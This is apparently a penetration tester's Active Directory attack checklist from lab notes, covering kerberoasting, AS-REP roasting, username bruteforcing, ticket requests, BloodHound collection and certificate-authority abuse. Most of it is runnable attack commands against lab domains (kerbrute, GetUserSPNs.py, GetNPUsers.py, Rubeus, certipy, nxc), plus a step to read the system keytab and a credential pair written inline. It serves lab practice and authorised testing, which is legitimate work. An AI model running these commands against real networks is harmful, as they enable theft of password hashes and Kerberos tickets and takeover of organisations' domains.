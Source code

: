 If linux and sudo user check: `/etc/krb5.keytab`

### [MindMaps](https://orange-cyberdefense.github.io/ocd-mindmaps/) [2024](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest\_ad\_dark\_2023\_02.svg)

### [kerberoasting.md](../active-directory/ad-exploitation/kerberoasting.md "mention")

Try kerberoasting if you have credentials or a shell on the target machine

### [asreproasting.md](../active-directory/ad-exploitation/asreproasting.md "mention")

**Linux**

* [ ] `GetUserSPNs.py -dc-ip dc01.hybrid.vl hybrid.vl/peter.turner`
* [ ] Use kerbrute to bruteforce usernames and asreproast

```
kerbrute userenum --dc dc.absolute.htb -d absolute.htb username.txt
```

* [ ] For etype 23 hash: `--downgrade`
* [ ] For bruteforce: `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt`
* [ ] bruteforce from https://github.com/insidetrust/statistically-likely-usernames
* [ ] To get Ticket Granting Ticket:`getTGT.py absolute.htb/d.klay`
* [ ] Bloodhound with TGT:

```
KRB5CCNAME=d.klay.ccache ./bloodhound.py -k -dc dc.absolute.htb -ns 10.10.11.181 -c All -d absolute.htb -u d.klay@absolute.htb
```

* [ ] Hunting for Users with Kerberoast Pre-auth Not Required:

```
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
```

**Windows**

To enumerate for asreproastable users (PowerView):

```
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

* [ ] Rubeus method: `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`

### Certificate Authority(CA)

* [ ] `nxc ldap sendai.vl -u Elliot.Yates -p 'aditya123@' -M adcs`
* [ ] To check for vulnerable certificates `sudo certipy-ad find -u 'a.briggs' -p 'password' -dc-ip <ip> -stdout -vulnerable` To get in bloodhound: `-old-bloodhound`
* [ ] Add [custom queries](https://raw.githubusercontent.com/ly4k/Certipy/main/customqueries.json) in `~./config/bloodhound/customqueries.json`
